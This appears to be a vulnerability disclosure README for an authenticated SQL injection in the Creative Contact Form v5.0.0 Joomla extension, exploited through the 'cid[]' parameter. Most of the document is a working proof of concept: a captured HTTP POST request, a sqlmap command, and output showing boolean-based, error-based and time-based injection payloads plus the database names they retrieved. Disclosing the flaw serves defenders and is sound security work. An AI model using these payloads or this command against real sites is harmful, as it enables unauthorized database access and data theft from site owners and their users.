

# SQL injection in Creative Contact Form v5.0.0 for Joomla!

**CVE Link:** Pending

**Creative Contact Form:** https://extensions.joomla.org/extension/creative-contact-form/

## Introduction
An authenticated (administrator) SQL injection vulnerability exists in the Creative Contact Form for Joomla! v5.0.0 via the 'cid[]' parameter in the submissions page.

### POC
To exploit this vulnerability go to 'Creative Contact Form >> Overview >> Submissions >> Submissions Demo >> select row >> Make Read' and save the request (req.txt) with Burp Suite.



**HTTP Request:**
```
POST /administrator/index.php?option=com_creativecontactform HTTP/1.1
Host: localhost:8080
Content-Length: 255
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="133", "Not(A:Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Linux"
Accept-Language: en-GB,en;q=0.9
Origin: http://localhost:8080
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: http://localhost:8080/administrator/index.php?option=com_creativecontactform
Accept-Encoding: gzip, deflate, br
Cookie: osColorScheme=dark; atumSidebarState=open; 7c69953700a73546l78d49541f4da3736=fa2b3fff8fed173baa7ee897c9bcd720; 6f0cb49ed1e11e96f297ddd4969c5c1b=4a2e75b3a9ae755b0b16ee6c26b22ee4
Connection: keep-alive

filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid%5B%5D=5&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1
```

**Exploit:**
```
python3 sqlmap.py -r ~/req.txt --dbs --dbms=mysql --batch -p 'cid[]'

        ___
       __H__
 ___ ___[']_____ ___ ___  {1.9.1.2#dev}
|_ -| . [']     | .'| . |
|___|_  [']_|_|_|__,|  _|
      |_|V...       |_|   https://sqlmap.org

---
Parameter: cid[] (POST)
    Type: boolean-based blind
    Title: MySQL AND boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid[]=5' AND EXTRACTVALUE(8905,CASE WHEN (8905=8905) THEN 8905 ELSE 0x3A END)-- KBkO&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1

    Type: error-based
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)
    Payload: filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid[]=5' AND GTID_SUBSET(CONCAT(0x71717a7171,(SELECT (ELT(1719=1719,1))),0x71627a6a71),1719)-- MuRy&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: filter_form_id=&filter_status_id=&filter_search=test&limit=20&directionTable=desc&sortTable=sp.id&cid[]=5' AND (SELECT 4763 FROM (SELECT(SLEEP(5)))ZwEh)-- oQKD&limitstart=0&view=submissions&task=submissions.make_read&boxchecked=1&filter_order=sp.id&filter_order_Dir=desc&ad5beb623bba9f3a9ad95b8b091b8804=1
---

available databases [3]:
[*] information_schema
[*] joomla_db
[*] performance_schema
```